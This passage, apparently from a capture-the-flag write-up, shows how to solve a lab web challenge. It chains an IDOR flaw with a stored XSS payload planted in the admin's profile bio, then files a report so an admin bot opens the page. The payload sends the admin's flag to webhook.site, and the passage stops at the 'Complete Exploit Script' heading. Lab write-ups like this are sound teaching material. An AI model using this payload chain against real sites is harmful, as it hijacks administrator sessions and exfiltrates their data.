 ```bash
# Login to get session
curl -X POST "http://target:port/api/login" \
  -H "Content-Type: application/json" \
  -d '{"username": "hacker", "password": "password123"}' \
  -b cookies.txt -c cookies.txt
```

### Step 2: Exploit IDOR to Update Admin Profile

Create a malicious payload that will extract the flag when executed:

```json
{
  "username": "admin",
  "email": "admin@volnaya-forums.htb", 
  "bio": "<img src=x onerror=\"fetch('/api/auth').then(r=>r.json()).then(d=>{if(d.user&&d.user.flag){var img=new Image();img.src='https://webhook.site/YOUR-WEBHOOK-ID?flag='+encodeURIComponent(d.user.flag);}})\\">"
}
```

**Important:** Replace `YOUR-WEBHOOK-ID` with your actual webhook.site ID.

Upload the payload to update the admin's profile:

```bash
curl -X POST "http://target:port/api/profile" \
  -H "Content-Type: application/json" \
  -b cookies.txt \
  -d @payload.json
```

### Step 3: Trigger Bot to Execute XSS

Submit a report to make the bot visit the profile page:

```bash
curl -X POST "http://target:port/api/report" \
  -H "Content-Type: application/json" \
  -b cookies.txt \
  -d '{"postThread": "/profile", "reason": "Security review needed"}'
```

### Step 4: Collect the Flag

The bot will:
1. Visit the profile page with admin credentials
2. Load the page which renders the admin's bio (our XSS payload)
3. Execute the JavaScript which fetches `/api/auth`
4. Extract the flag from the API response
5. Send it to your webhook

Check your webhook logs to retrieve the flag!

## Complete Exploit Script

